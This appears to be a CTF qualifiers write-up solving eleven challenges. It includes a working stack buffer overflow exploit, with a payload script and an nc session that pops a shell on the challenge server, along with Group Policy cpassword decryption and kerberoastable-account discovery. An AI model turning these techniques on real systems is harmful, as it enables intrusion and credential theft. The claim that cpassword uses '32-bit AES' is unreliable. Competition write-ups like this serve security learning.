

## My solutions for the C2C CTF Qualifiers Round

The following are solutions to the problems that I was able to solve during the 24-hour period which the CTF challenges were open. A separate writeup will include solutions to problems which I learn to solve about after the qualifiers round had concluded.

Total Points: 2600

Number of problems solved: 11 out of 30

Rank: 10th out of 372 participants

## GrOops Policy

Category: Crypto

Points: 50

We were given a Group Policy file and are asked to parse the password of user who started the schedule service task. When I searched up some of the parameters on the web, I found that the `cpassword` parameter is a security-risk since it uses a very weak 32-bit AES algorithm. 

We can creak the cpassword using the `gpp-decrypt` Ruby script which is provided by default in Kali Linux:

~~~console
gray@gdesktop:~$ gpp-decrypt j3C+7b9MdYGepbtnXBecd/63rj4lxVlq+VKdJxAhDEf9qmr9Uedw82hTjN9iMSwuV6qrEfpy/A1Y2RM0lCLX8FSpL82KO5D10q3EdgAu2y5p0li6friiIngfkxYYeim9
bRimFuL-esT0nia.cl0Thing_emb4lm_dowNpoUr
~~~

Flag: flag{bRimFuL-esT0nia.cl0Thing_emb4lm_dowNpoUr}

## Secret Operator

Category: Scripting

Points: 50

An image was given to us that shows the following code:

~~~c
while(x-->0){
        printf("%d",x);
    }
~~~

We were asked to find a starting value for `x` which would result in a 190 digit number. We can see from the printf that it doesn't create a newline, and thus the output from one iteration to the next is concatenated with each other. For example, providing `int x = 10` gets us:

`9876543210`

We can create a simple Python script which iteratively solves the problem:

~~~py
length = 0

i = 0
while length < 190:
    length += len(str(i))
    i += 1
print(i)
print(length)
~~~

With the number `100` we get exactly a 190 digits output.

Flag: flag{100}

## Feels the Same

Category: Stego

Points: 150

Since the pattern on the image seems pretty complex, it's possible that there could be secret message in the underlying layers. Passing the image through [Image Steganography](https://incoherency.co.uk/image-steganography/#unhide) website, we get a picture of a Braille message. We then use a Braille image to text decoder ([link](https://www.pathstoliteracy.org/resources/braille-image-text-abcbraillecom)) to retrieve the Braille message. From the output, we see that it is reciting the nursery-rhyme "Three Blind Mice" (inserted below for reference):

~~~text
Three blind mice. Three blind mice.
See how they run. See how they run.
They all ran after the farmer's wife,
Who cut off their tails with a carving knife,
Did you ever see such a sight in your life,
As three blind mice?
~~~

except the last line has been altered to say "flag{three blind mice}

Flag: flag{three blind mice}

## Crypter

Category: RevEng

Points: 200

We were given a .pyc file, which is the compiled bytecode of the program. Fortunately for us, there are decompilers out there which can read .pyc and attempt to retrieve the source code. Passing the file through [uncompyle6](https://pypi.org/project/uncompyle6/), we get:

~~~py
$ uncompyle6 crypter-3.8.pyc
import sys
if not len(sys.argv) == 2:
    print('Syntax: crypter-3.8.pyc <Password>')
    exit()
input = sys.argv[1]
password = ''
intPass = '\n\t   0x4e, 0x44, 0x49, 0x4f, 0x73, 0x6d, 0x3e, 0x3b,\n\t   0x30, 0x3f, 0x3e, 0x6e, 0x3c, 0x38, 0x3a, 0x6e,\n\t   0x3c, 0x6a, 0x6b, 0x6b, 0x30, 0x3e, 0x6b, 0x3d,\n\t   0x6b, 0x31, 0x6c, 0x3c, 0x6a, 0x6d, 0x38, 0x6a,\n\t   0x3b, 0x3a, 0x6d, 0x3d, 0x6e, 0x75\n'
intPass = intPass.split(',')
flagCounter = 0
for i in range(len(intPass)):
    value = chr(int(intPass[i], 0) ^ 8)
    if input[i] == value:
        flagCounter += 1
    else:
        print('Incorrect password!')
        exit()
else:
    if flagCounter == 38:
        print('Wow Finally Break the Password, \nGood Bye')
# okay decompiling crypter-3.8.pyc
~~~

We can take out the `intPas` data, giving it to Magic Chef to interpret as Hex and automatically decoding the result (it found that there is an XOR encoding underneath), we get the flag.

Flag: FLAG{e63876f402f4bcc86c5c9d4be0b32e5f}

## Speed Me Up Scotty 1

Category: Scripting

Points: 250

The user complained that the following code takes too long to run:

~~~py
def my_func(x):
    # Note: Don't fall for the off by one
    if x == 0 or x == 1:
        return 1
    return my_func(x - 1) + my_func(x - 2)

print(f"flag{{{my_func(100)}}}")
~~~

We can see that it's simply retrieving the `n_th` Fibonacci number. We can write it faster by doing:

~~~py
def fib(n):
    cur, next = 1, 1
    for i in range(n): # n >= 2
        cur, next = next, cur + next
    return cur

print(f"flag{{{fib(100)}}}")
~~~

Flag: flag{573147844013817084101}

## Speed Me Up Scotty 2

Category: Scripting

Points: 250

The program passes two long string to the `my_func2()` function, which looks like the following:

~~~py
def my_func2_inner(x, y, a, b):
    if a == 0 or b == 0:
        return 0, ""
    if x[a - 1] == y[b - 1]:
        m, n = my_func2_inner(x, y, a - 1, b - 1)
        return m + 1, n + x[a - 1]
    return max(my_func2_inner(x, y, a, b - 1), my_func2_inner(x, y, a - 1, b))

def my_func2(x, y):
    return my_func2_inner(x, y, len(x), len(y))[1]
~~~

With a bit of research, we figure out that this is naive recursive implementation of the Longest Common Subsequence problem. See more [here](https://www.techiedelight.com/longest-common-subsequence/)

The fastest method to solve this problem involves using dynamic programming and tabular approaches. There are libraries which can help us find the longest possible length, including [pycls](https://pypi.org/project/pylcs/), however, we are more interested in the resulting text rather than the int solution.

I found a code snippet that prints out all of the longest subsequence, [here](https://www.geeksforgeeks.org/printing-longest-common-subsequence-set-2-printing/) and is implemented in `exp2.py`. Unfortunately that gave us over 38 solutions to work with. I had to copy and paste each one by hand to the competition page to see which is the right answer. It did happen, eventually...

Flag: flag{CCBCBCBBBACACBBBCCAABBAABACAAACBBCCCAACCA}

## Shortest Straw

Category: DFIR

Points: 250

This problem very closely mimics the `Getting_Roasted` problem from the Dry_Run challenges. Using the `bloodhound` tool on Kali Linux (its version on Ubuntu tends to bug out too much), I was able to import in the Domain and Users information from the provided zip file. After that, I went to the Analysis tab and perform "Find all kerberoastable AD users". There were two applicable users, namely `SQLSERVICE@MARVEL.LOCAL` and `KRBTGT@MARVEL.LOCAL`. I simplied tried both user's Object-ID and found out it was the former.

Flag: flag{S-1-5-21-4225503151-2564572598-2140534834-1106}

## Pwony is a Pwn WarmUp

Category: Exp

Points: 550

Note to self: Why is this problem worth so much??

We are given a binary and also a `nc` service to work with. When we decompile the binary in Ghidra we see the following:

~~~c
int main(int argc,char **argv)

{
  char buffer [66];
  
  setup();
  signal(0xb,vuln);
  printf("Try to overflow: ");
  __isoc99_scanf(&DAT_004009e7,buffer);
  printf("Buffer content: %s\n",buffer);
  return 0;
}
~~~

The vulnerability of this program deals with the fact that `scanf` does not limit the number of characters it scans in, which could potentially overflow the char `buffer`. Inspecting the `vuln()` function we see:

~~~c

void vuln(void)

{
  __uid_t __suid;
  __uid_t __euid;
  __uid_t __ruid;
  
  __suid = geteuid();
  __euid = geteuid();
  __ruid = geteuid();
  setresuid(__ruid,__euid,__suid);
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
~~~

How nice of them to provide a `system("/bin/sh")` call for us. All we need to do then is to overwrite the return address of `main` and send it to `vuln()`, where we will be able to get a shell.

The following are the notes that I took to solve this problem:

~~~text
Address of vuln():
gef➤  p vuln
$1 = {void ()} 0x400817 <vuln>

Vulnerability: scanf() on a char buffer without putting a character limit

Call of scanf: 
	break* 0x000000000040091f
Instruction after scanf: 
	break *0x0000000000400924
Location of `ret`: 
	break *0x0000000000400942

Location of &buffer: 
gef➤  p &buffer
$2 = (char (*)[66]) 0x7fffffffdde0

Location of stack: 
0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]

Before:
gef➤  x/64wx 0x7fffffffdde0
0x7fffffffdde0:	0xffffde50	0x00007fff	0xffffe239	0x00007fff
0x7fffffffddf0:	0x00000001	0x00000000	0x00400995	0x00000000
0x7fffffffde00:	0xf7fabfc8	0x00007fff	0x00400950	0x00000000
0x7fffffffde10:	0x00000000	0x00000000	0x00400730	0x00000000
0x7fffffffde20:	0xffffdf20	0x00007fff	0x00000000	0x00000000
0x7fffffffde30:	0x00000000	0x00000000	0xf7de20b3	0x00007fff
0x7fffffffde40:	0x00000071	0x00000000	0xffffdf28	0x00007fff
0x7fffffffde50:	0xf7fa3618	0x00000001	0x004008d1	0x00000000
0x7fffffffde60:	0x00400950	0x00000000	0xcf147e84	0x21958ad1
0x7fffffffde70:	0x00400730	0x00000000	0xffffdf20	0x00007fff

After: 
gef➤  x/64wx 0x7fffffffdde0
0x7fffffffdde0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffddf0:	0x41414141	0x41414141	0x41414141	0x00000041
0x7fffffffde00:	0xf7fabfc8	0x00007fff	0x00400950	0x00000000
0x7fffffffde10:	0x00000000	0x00000000	0x00400730	0x00000000
0x7fffffffde20:	0xffffdf20	0x00007fff	0x00000000	0x00000000
0x7fffffffde30:	0x00000000	0x00000000	0xf7de20b3	0x00007fff
0x7fffffffde40:	0x00000071	0x00000000	0xffffdf28	0x00007fff
0x7fffffffde50:	0xf7fa3618	0x00000001	0x004008d1	0x00000000
0x7fffffffde60:	0x00400950	0x00000000	0xcf147e84	0x21958ad1
0x7fffffffde70:	0x00400730	0x00000000	0xffffdf20	0x00007fff
0x7fffffffde80:	0x00000000	0x00000000	0x00000000	0x000000

Location of return address:
gef➤  x/64w $rsp
0x7fffffffde38:	0xf7de20b3	0x00007fff	0x00000071	0x00000000
~~~

From this, we can create a simple Python script to craft our exploit input:

~~~py
import struct
import sys

padding = b'A'*(22*4)
#Address to vuln() function
ret_addr_1 = struct.pack("I",0x400817)
ret_addr_2 = struct.pack("I",0x00000000)

out = padding+ret_addr_1+ret_addr_2

sys.stdout.buffer.write(out)
~~~

After verifying that it works locally, we can send it to the server using and cat out the flag using the shell we get:

~~~console
$ (python3 exp.py; cat) |  nc powny.ctf.fifthdoma.in 13380
Try to overflow: ls
Buffer content: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
ls
flag.txt
run.sh
vuln.elf
xinetd
cat flag.txt
flag_{IIYEM53BOJWXK4}
~~~

Flag: flag_{IIYEM53BOJWXK4}

## Credit System

Category: OSINT

Points: 550

The only thing we know about the problem is that `deepnoobdev` created a "Credit System". This problem actually builds on the first OSINT problem (which I still hasn't solved), which points to the fact that `deepnoobdev` had created a website using a popular hosting platform.

With a bit of Google Search, we can find their user profile on `Github`: <https://github.com/deepnoobdev>

Taking a look at the `My-Credits` repo along with its commit history, we find the following revision of the `code.sh` file

~~~sh
#!/bin/bash
red=`tput setaf 1`
read -p "Enter the key : " key
echo "${red}
 =================================================
|                                                 |
|                     My-Ceds                     |           
|                                                 |
 ================== deepnoobdev ==================
${reset}"
echo " "
#pass : hj3qYpdWyr [<-- this was the line that was deleted]
#check the website is alive
#pastebin/$key
~~~

Also in the repository is the following file named `keys`:

~~~text
pR4YY719
eRU78I80
iO34YIJ7
fDJF7D9S
sDASHD68
hSDUH7D8
b77DASD8
yDASD89D
e8989DAQ
...
~~~

After a bit of thought, I found that the "keys" are possible extensions for the `pastebin` website (e.g., <https://pastebin.com/pR4YY719>). After trying the first few entries we see we get back a "This page is no longer available." from Pastebin.

I quickly wrote a Python script to go through all the "keys" values and see which ones do not return the error. We eventually get a hit on <https://pastebin.com/rTA163S2>.

After entering the commented out password to the pastebin site, we get the following message:

~~~text
01000110 01001100 01000001 01000111 01111011 00110100 00110110 00111000 01100110 01100011 00110000 00110101 00110011 00111001 00110011 01100001 00110110 00110111 00111000 00110000 01100010 01100011 00110100 00110000 01100100 00110111 00110111 00110001 00110011 00110000 00110011 01100011 01100101 00111001 01100110 00110001 00110100 01111101 
~~~

Using a binary to ASCII decoder we get the flag.

Flag: FLAG{468fc05393a6780bc40d771303ce9f14}

## Invisible Ink

Category: Stego

Points: 200

We are given a seemingly blank `flag.png` image. However, when opening it under `xxd` we find that not all the pixel values are the same. Now, intially I thought we could get the "invisible" pixels to show by using a image color inverter or GIMP to color in the transparent pixels, but nothing seem to work.

That is, until I decided to open up the pixel map using Python `PIL.Image` library. At that point I realized the image was encoded in black and white (0 to 255), and that some of the pixels had the value `0` instead of `1`. By changing all `0` pixel values to `255` we were able to get a clearer picture of the text.

Flag: FLAG{l3m0n_juic3}

## Word Search

Category: Scripting

Points: 100

With about one hour left in the competition, I decided that I had a better chance of finishing this problem, which was mainly tedious in terms of programming a crossword solver, than solving some of the remaining challenges.

When we connect to the `nc` server, we get something like the following:

~~~console
$ nc word-search.ctf.fifthdoma.in 4243
Remaining words:
begin
young
river
between
through
second
could
though
cause
those
above
country
small
about
learn
build
three
friend
mountain
leave
   0  1  2  3  4  5  6  7  8  9 10 11 12 13 14
 0 e  r  l  y  p  k  q  s  o  e  s  o  h  t  t
 1 y  l  e  a  v  e  e  y  l  m  w  s  r  u  n
 2 d  e  x  y  s  a  r  d  n  o  c  e  s  n  e
 3 n  a  e  o  n  t  d  r  a  t  q  o  f  c  e
 4 r  r  g  e  n  o  c  k  e  c  e  a  r  a  w
 5 y  n  w  u  r  h  l  o  j  v  q  h  m  u  t
 6 f  o  o  q  g  h  k  p  u  h  i  o  y  s  e
 7 a  c  u  u  d  m  t  g  g  l  u  r  m  e  b
 8 j  q  o  n  z  f  l  u  x  n  d  a  a  f  n
 9 l  h  l  u  g  h  o  f  t  d  l  n  b  r  r
10 t  k  i  i  u  r  a  a  d  l  i  s  o  i  o
11 b  l  v  b  h  b  i  l  d  g  b  x  v  e  z
12 y  e  w  t  o  n  i  b  e  j  i  e  e  n  h
13 m  e  x  u  c  u  c  b  a  f  n  n  n  d  v
14 t  d  t  q  b  e  a  o  y  h  r  e  a  n  p
Input start coordinate of word, e.g: 1, 2 for row 1 column 2
1, 4
Input end coordinate of word, e.g: 3, 4 for row 3 column 4
3,5
Incorrect word found: vat
Input start coordinate of word, e.g: 1, 2 for row 1 column 2
Too slow
~~~ 

The prompt gives us a list of words and then a crossword grid to search. We solve each word by providing a starting and ending coordinate pair (row, column). There is a time limit on how long we have to submit the solutions, approximately 15 seconds.

I employed the following process to solve the crossword in my Python script:

1. Open a remote connection with the server and retrieve the prompt
2. Parse the prompt for the word list and the crossword grid
3. Convert the crossword grid into a numpy matrix for easier manipulation
4. For each word, iterate through all the possible column, row, and diagonal splices of the crossword grid
5. If a word is found (whether reading from left-to-right or right-to-left), convert its index within the spliced line to actual coordinate indices
6. Send the starting and ending coordinate to the server until all words has been found.

There are numerous places where my code could have been better optimized or refactored to be more neat, although given the generous time constraint this really didn't matter. You can find the full script under `exp.py`.